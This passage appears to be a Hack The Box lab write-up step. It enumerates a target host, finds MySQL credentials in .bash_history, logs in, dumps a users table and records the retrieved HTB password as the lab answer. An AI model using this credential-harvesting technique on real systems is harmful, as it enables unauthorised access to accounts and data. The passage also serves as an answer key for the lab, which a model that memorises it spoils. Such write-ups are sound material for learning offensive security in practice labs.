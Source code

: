 5. Enumerate the target:
   - `ls -la` -> found `.mysql_history` showing that the target has also MySQL service enabled
   - `cat .bash_history` -> found `mysql -u tom -p` showing the command to connect to MySQL
   - Use the found credentials `tom:NMds732Js2761` to connect to MySQL and find the password for `HTB`:
   ```
   mysql> show databases;
   +--------------------+
   | Database           |
   +--------------------+
   | information_schema |
   | mysql              |
   | performance_schema |
   | sys                |
   | users              |
   +--------------------+
   mysql> use users;
   mysql> show tables;
   +-----------------+
   | Tables_in_users |
   +-----------------+
   | users           |
   +-----------------+
   1 row in set (0.01 sec)

   mysql> show columns from users
       -> ;
   +----------+-------------+------+-----+---------+-------+
   | Field    | Type        | Null | Key | Default | Extra |
   +----------+-------------+------+-----+---------+-------+
   | id       | int         | YES  |     | NULL    |       |
   | username | varchar(50) | YES  |     | NULL    |       |
   | password | varchar(50) | YES  |     | NULL    |       |
   +----------+-------------+------+-----+---------+-------+
   3 rows in set (0.00 sec)

   mysql> select * from users where username = "HTB";
   +------+----------+------------------------------+
   | id   | username | password                     |
   +------+----------+------------------------------+
   |  150 | HTB      | cr3n4o7rzse7rzhnckhssncif7ds |
   +------+----------+------------------------------+
   1 row in set (0.01 sec)
   ```

`Answer: cr3n4o7rzse7rzhnckhssncif7ds`
